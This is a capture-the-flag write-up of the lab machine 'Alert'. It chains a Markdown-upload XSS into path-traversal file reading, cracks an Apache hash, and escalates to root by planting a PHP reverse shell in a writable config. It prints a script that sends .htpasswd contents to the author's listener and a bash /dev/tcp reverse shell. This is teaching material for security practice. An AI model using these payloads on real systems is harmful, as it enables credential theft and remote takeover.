 ![Alert](Alert_images/pwned.png)

Alert was an engaging box that required exploiting a Markdown file upload vulnerability and leveraging XSS to achieve Local File Inclusion (LFI). By tricking an administrator into executing a malicious payload, I retrieved hashed credentials from an internal subdomain and cracked them to gain SSH access as Albert. Privilege escalation was achieved by modifying a writable configuration file within a locally running web monitoring service, injecting a reverse shell to gain root. This box emphasized the risks of improper input validation, exposed internal services, and misconfigured file permissions.

# User flag

![nmap](Alert_images/nmap.png)

Nmap scan reveals only two ports. I'll check the revealed website.

![markdownviewer](Alert_images/markdownviewer.png)

This website provides a file upload functionality. Looking at the source code, I can see that only .md files are accedpted and that there is a .php script taking the uploaded files. There is also a contact form.

```
# Source

<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <link rel="stylesheet" href="css/style.css">
    <title>Alert - Markdown Viewer</title>
</head>
<body>
    <nav>
        <a href="index.php?page=alert">Markdown Viewer</a>
        <a href="index.php?page=contact">Contact Us</a>
        <a href="index.php?page=about">About Us</a>
        <a href="index.php?page=donate">Donate</a>
            </nav>
    <div class="container">
        <h1>Markdown Viewer</h1><div class="form-container">
            <form action="visualizer.php" method="post" enctype="multipart/form-data">
                <input type="file" name="file" accept=".md" required>
                <input type="submit" value="View Markdown">
            </form>
          </div>    </div>
    <footer>
        <p style="color: black;">© 2024 Alert. All rights reserved.</p>
    </footer>
</body>
</html>
```

Any attempt to upload a file that is not a .md file would end up with a 'Error: File must be a Markdown file (.md). ' error.

Having no leads to check, I began fuzzing for subdomains and searching for directories.

![ffuf](Alert_images/ffuf.png)

Found a statistics subdomain.

![nonew](Alert_images/nonew.png)

And a bunch of files. The subdomain requires credentials to access, so I wont be able to just check the files.

## LFI via XSS

I tested whether inputting links into the message form would bring any results, and it did!

![hit](Alert_images/hit.png)

Someone clicked the link as soon as I sent it. It may be possible to snatch something from the person on the other side, or maybe a file?

```
<script>
fetch("http://alert.htb/messages.php?file=../../../../../../../var/www/statistics.alert.htb/.htpasswd")
  .then(response => response.text())
  .then(data => {
    fetch("http://10.10.16.2:80/?file_content=" + encodeURIComponent(data));
  });
</script>
```
This script should send me back the contents of .htpasswd, as the file parameter is not sanitized at all.

After uploading the .md file, I noticed a share link in the bottom left of the screen.

![share](Alert_images/share.png)

I'll copy the link and send it over to the contact form.

![data](Alert_images/data.png)

What came back is URL encoded data! I'll decode it using cyberchef.

```
%3Cpre%3Ealbert%3A%24apr1%24bMoRBJOg%24igG8WBtQ1xYDTQdLjSWZQ%2F%0A%3C%2Fpre%3E%0A > <pre>albert:$apr1$bMoRBJOg$igG8WBtQ1xYDTQdLjSWZQ/</pre>
```
Its a hash! I'll send it over to hashcat for some quick cracking.

```
hashcat -a 0 hash.txt /home/kali/Downloads/rockyou.txt --username
```

I have the credentials for Albert! I'll try to SSH into the box now.

![user](Alert_images/user.png)

# Privilege escalation

![ss](Alert_images/ss.png)

During my recon, I noticed a service running locally at port 8080. I'll forward the port and check it out.

```
ssh -L 8080:127.0.0.1:8080 albert@10.10.11.44
```
![webmon](Alert_images/webmon.png)

Its a website monitor page. Not much to see here, but I'll keep it in mind.

Inside the web monitor's directory on the box, I found something interesting.

![info](Alert_images/info.png)

Since Albert is a member of the management group, he can write into the config file. I'll poison the file with a reverse shell script, which should grant me a root reverse shell!

```
<?php
exec("/bin/bash -c 'bash -i > /dev/tcp/IP/PORT 0>&1'");
?>
```

![root](Alert_images/root.png)

Rooted!
